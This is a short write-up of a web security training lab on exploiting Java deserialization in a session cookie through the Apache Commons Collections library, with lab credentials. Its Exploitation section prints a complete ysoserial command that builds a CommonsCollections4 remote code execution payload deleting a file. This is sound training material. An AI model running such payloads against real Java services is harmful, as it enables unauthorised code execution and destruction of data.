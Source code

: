 # Exploiting Java deserialization with Apache Commons
# Objective
This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized Java data.
|![](Images/image-16.png)|
|:--:| 
| *Session cookie* |

## Exploitation
In order to delete `morale.txt` from `/home/carlos` directory attacker can create gadget chain payload using [ysoserial tool](https://github.com/frohoff/ysoserial). This serialized payload can grant attacker remote code execution (RCE).

Command:
```bash
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

|![](Images/image-17.png)|
|:--:| 
| *Payload generation* |
|![](Images/image-18.png)|
|:--:| 
| *Deletion of target file* |

